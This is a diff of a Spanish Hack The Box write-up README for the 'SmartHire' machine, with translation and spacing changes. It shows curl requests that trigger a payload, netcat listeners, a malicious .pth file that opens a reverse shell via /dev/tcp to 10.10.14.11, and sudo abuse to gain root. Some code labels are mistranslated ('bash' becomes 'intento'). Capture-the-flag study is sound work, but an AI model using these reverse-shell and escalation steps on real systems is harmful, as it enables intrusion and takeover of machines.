

Before and after one commit to Cosm3No1de/SmartHire-HTB-, a Markdown page: README.md, the part around one of its changes. Shown at 83% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -168,83 +141,82 @@ curl -c cookies.txt -X POST http://smarthire.htb/register \
 
-# Login
-curl -b cookies.txt -c cookies.txt -X POST http://smarthire.htb/login \
-  -d "username=test&password=test"
+ # Inicio de sesión
+ curl   -b  cookies.txt  -c  cookies.txt  -X  POST http://smarthire.htb/login  \
+   -d   "username=test&password=test"
 
 CSV Válido para /predict
-/tmp/resume.csv:
+
+/tmp/resume.csv
 csv
 
-experience,skills
-5,Python
-3,JavaScript
+experiencia  ,  habilidades
+ 5  ,  Python
+ 3  ,  JavaScript
 
 Disparo del Payload
-bash
+intento
 
-curl -b cookies.txt -X POST http://smarthire.htb/predict -F "file=@/tmp/resume.csv"
+curl   -b  cookies.txt  -X  POST http://smarthire.htb/predict  -F   "file=@/tmp/resume.csv"
 
 Respuesta del servidor: 'int' object has no attribute 'predict' (error esperado).
+
 En el listener:
-bash
+intento
 
-nc -lvnp 4444
+nc   -lvnp   4444
 
-plain
+texto
 
-connect to [10.10.14.11] from [10.129.245.215] 49158
-svcweb@smarthire:/var/www/smarthire.htb$
+Conectarse a [10.10.14.11] desde [10.129.245.215] 49158
+ svcweb@smarthire:/var/www/smarthire.htb$
 
 ✅ Shell obtenida como svcweb.
 4. Escalada de Privilegios a Root
 Verificación de Permisos
-bash
+intento
 
-svcweb@smarthire:/$ sudo -l
-    (root) NOPASSWD: /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *
+svcweb@smarthire:/$  sudo   -l
+     (  root  )  NOPASSWD: /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *
 
-svcweb@smarthire:/$ id
-    uid=1000(svcweb) gid=1000(svcweb) groups=1000(svcweb),1001(mlflowweb),1002(devs)
+ svcweb@smarthire:/$  id
+     uid  =  1000  (  svcweb  )   gid  =  1000  (  svcweb  )   groups  =  1000  (  svcweb  )  ,1001  (  mlflowweb  )  ,1002  (  devs  )
 
 Análisis del Directorio de Plugins
-bash
+intento
 
 svcweb@smarthire:/$ ls -la /opt/tools/mlflow_ctl/plugins/
 drwxrwxr-x 2 root devs 4096 May 12 15:22 dev
 
-    🔴 El directorio dev es escribible por el grupo devs. Python procesa automáticamente archivos .pth mediante site.addsitedir().
+🔴 El directorio dev es escribible por el grupo devs. Python procesa automáticamente archivos .pth mediante site.addsitedir().
+Creación del Archivo .pthMalicioso
+intento
 
-Creación del Archivo .pth Malicioso
-bash
-
-echo 'import os; os.system("bash -c \"bash -i >& /dev/tcp/10.10.14.11/4445 0>&1\"")' \
-  > /opt/tools/mlflow_ctl/plugins/dev/exploit.pth
+echo   'import os; os.system("bash -c \"bash -i >& /dev/tcp/10.10.14.11/4445 0>&1\"")'   \
+   >  /opt/tools/mlflow_ctl/plugins/dev/exploit.pth
 
 Ejecución con sudo
-Listener (máquina atacante):
-bash
 
-nc -lvnp 4445
+Oyente (máquina atacante):
+intento
+
+nc   -lvnp   4445
 
 Shell de svcweb:
-bash
+intento
 
 sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py status
 
 ✅ Conexión entrante como root.
 5. Banderas
-Table
-Flag	Estado
+Bandera 	Estado
 user.txt	✅ Obtenida (hash oculto por seguridad)
 root.txt	✅ Obtenida (hash oculto por seguridad)
 6. Lecciones Aprendidas
-Table
-#	Lección
-1	Credenciales por defecto en servicios internos (MLflow) son un vector crítico de compromiso inicial.
-2	Deserialización insegura de cloudpickle permite ejecución remota de comandos (RCE) al cargar modelos arbitrarios.
-3	Permisos mal configurados (directorio escribible por grupo en un script con sudo) permiten escalada a root mediante archivos .pth, procesados automáticamente por site.addsitedir().
+# 	Lección
+1 	Credenciales por defecto en servicios internos (MLflow) son un vector crítico de compromiso inicial.
+2 	Deserialización insegura de cloudpickle permite ejecución remota de comandos (RCE) al cargar modelos arbitrarios.
+3 	Permisos mal configurados (directorio escribible por grupo en un script con sudo) permiten escalada a root mediante archivos .pth, procesados automáticamente por site.addsitedir().
 4	La enumeración meticulosa de vhosts y rutas es esencial para descubrir superficies de ataque ocultas.
 7. Herramientas Utilizadas
-Table
 Herramienta	Uso
 Nmap	Escaneo de puertos y servicios
 FFUF	Fuzzing de subdominios
@@ -255,5 +227,7 @@ Python	Desarrollo de scripts de explotación
 📎 Créditos
 
     Writeup: Cosmenoide
+
     Plataforma: Hack The Box
+
     Máquina: SmartHire
```
Also changed, not shown: other parts of README.md (+39 -64 lines).
